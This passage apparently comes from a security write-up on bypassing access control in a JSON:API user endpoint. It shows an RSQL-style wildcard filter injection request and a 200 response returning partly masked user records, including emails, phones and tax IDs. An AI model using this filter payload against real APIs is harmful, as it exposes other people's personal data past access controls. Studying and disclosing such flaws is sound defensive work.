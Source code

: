 ### Response

```http
HTTP/1.1 403 
Date: Sat, 22 Mar 2025 14:40:07 GMT
Content-Length: 0
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
```

Again we make use of the filters and special operators that will allow us an alternative way to obtain the information of the users and evading the access control.
For example, filter by those *users* that contain the letter “*a*” in their user *ID*:

### Request

```http
GET /api/users?filter[users]=id=in=(*a*) HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJhb.................
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```

### Response

```http
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 14:43:28 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 1434192
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "id": "********A***********",
        "type": "UserGetResponseCustomDTO",
        "attributes": {
            "status": "ACTIVE",
            "countryId": 63,
            "timeZoneId": 3,
            "translationKey": "************",
            "email": "**********@domain.local",
            "firstName": "rafael",
            "surname": "************",
            "telephoneCountryCode": "**",
            "mobilePhone": "*********",
            "taxIdentifier": "********",
            "languageId": 1,
```